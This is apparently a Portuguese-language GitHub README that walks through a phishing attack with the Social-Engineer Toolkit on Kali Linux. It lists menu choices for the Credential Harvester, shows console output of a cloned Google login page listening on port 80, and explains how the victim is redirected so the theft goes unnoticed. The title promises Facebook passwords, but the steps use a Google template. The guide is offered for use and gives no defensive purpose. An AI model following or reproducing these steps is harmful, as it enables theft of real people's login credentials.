 # Phishing para captura de senhas do Facebook
Ferramenta para capturar dados com a utilização de Engenharia Social utilizando Phishing

## Ferramentas Necessárias 
- Kali Linux
  ```
  https://www.kali.org/get-kali/#kali-platforms
  ```
- Kit de ferramentas de configuração
  ```
  sudo apt-get update && sudo apt-get upgrade && sudo apt-get dist-upgrade 
  ```
## Configurando o Phishing no Kali Linux
- Acesso root:sudo su
- Iniciando o setoolkit no terminal: setoolkit

## Passo a Passo
1- Tipo de ataque: Social-Engineering Attacks

2- Vetor de ataque:Web Site Attack Vectors

3- Método de ataque:Credential Harvester Attack Method 

4- Método de ataque: Web Templates
 ```
   1) Web Templates
   2) Site Cloner
   3) Custom Import
```


5- Obtendo o seu endereço da máquina:ifconfig

6- Selecione: Google
```
    1. Java Required
    2. Google
    3. Twitter
```

 
 Criando servidor...
   ```
         set:webattack> Select a template: 2
      
      [*] Cloning the website: http://www.google.com                          
      [*] This could take a little bit...                                     
      
      The best way to use this attack is if username and password form fields 
      [*] The Social-Engineer Toolkit Credential Harvester Attack
      [*] Credential Harvester is running on port 80                          
      [*] Information will be displayed to you as it arrives below:           
      ^C[*] File in XML format exported to /root/.set/reports/2024-12-08 09:46:12.444060.xml for your reading pleasure...                             
      

  ```
## Site criado no IP utilizado

- Exemplo 192.168.1.0
```
  set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.1.10]:
```
## Utilização do Template Google
Após a vítima se conectar ao site phishing, ela irá se deparar com a Tela de Login, após se conectar automaticamente será redirecionada para a pagina do Google, como se o login tivesse funcionado. 

![tela](https://github.com/user-attachments/assets/fd493b8a-bdfd-407f-9a4f-1f141f70a006)




